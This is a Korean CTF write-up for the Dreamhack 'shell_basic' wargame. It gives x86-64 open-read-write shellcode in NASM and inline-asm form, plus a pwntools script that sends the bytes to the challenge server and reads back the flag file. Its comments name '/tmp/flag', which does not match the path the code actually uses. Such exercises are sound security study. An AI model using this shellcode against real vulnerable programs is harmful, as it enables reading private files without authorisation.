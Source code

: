 # wargame : shell_basic

section .text
global _start
_start:
push 0x0
mov rax, 0x676E6F6F6F6F6F6F

push rax
mov rax, 0x6C5F73695F656D61

push rax
mov rax, 0x6E5F67616C662F63

push rax
mov rax, 0x697361625F6C6C65

push rax
mov rax, 0x68732F656D6F682F
push rax

mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 1
syscall

**asm**(
".global run_sh\n"
"run_sh:\n"

```
"push 0x0\\n"
"mov rax, 0x676E6F6F6F6F6F6F \\n"
"push rax\\n"
"mov rax, 0x6C5F73695F656D61 \\n"
"push rax\\n"
"mov rax, 0x6E5F67616C662F63 \\n"
"push rax\\n"
"mov rax, 0x697361625F6C6C65 \\n"
"push rax\\n"
"mov rax, 0x68732F656D6F682F \\n"
"push rax\\n"
"mov rdi, rsp    # rdi = '/tmp/flag'\\n"
"xor rsi, rsi    # rsi = 0 ; RD_ONLY\\n"
"xor rdx, rdx    # rdx = 0\\n"
"mov rax, 2      # rax = 2 ; syscall_open\\n"
"syscall         # open('/tmp/flag', RD_ONLY, NULL)\\n"
"\\n"
"mov rdi, rax      # rdi = fd\\n"
"mov rsi, rsp\\n"
"sub rsi, 0x30     # rsi = rsp-0x30 ; buf\\n"
"mov rdx, 0x30     # rdx = 0x30     ; len\\n"
"mov rax, 0x0      # rax = 0        ; syscall_read\\n"
"syscall           # read(fd, buf, 0x30)\\n"
"\\n"
"mov rdi, 1        # rdi = 1 ; fd = stdout\\n"
"mov rax, 1        # rax = 1 ; syscall_write\\n"
"syscall           # write(fd, buf, 0x30)\\n"
"\\n"
"xor rdi, rdi      # rdi = 0\\n"
"mov rax, 0x3c	   # rax = sys_exit\\n"
"syscall		   # exit(0)");

```

void run_sh();

int main() { run_sh(); }

- 위처럼 스켈레톤 코드 안에 셸코드를 채워넣은 c파일을 컴파일후 objdump -d 파일명, 이런식으로 셸코드를 추출한다. 필요한 부분인 orw가 실행되는 부분인 run_sh()함수 부분만 추출한다.
    
    ![Untitled](Untitled.png)
    
    ```
    from pwn import *
    
    context.arch = "amd64"
    p = remote("host1.dreamhack.games", 22901)
    
    shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
    p.sendlineafter('shellcode: ', shellcode)
    print(p.recv())
    ```
    

- 추출하는 다른 방법으론(문제에 소개된) 먼저 asm파일(스켈레톤 코드X)을 .o파일로 기계어화 시킨다.(nasm -f elf64 exp.asm)
- 이후 Byte Code화 한다( objcopy —dump-section .text=exp.bin exp.o)
- xxd로 값을 따온다. (xxd exp.bin)
- 이후 pwntools로 코드 작성.
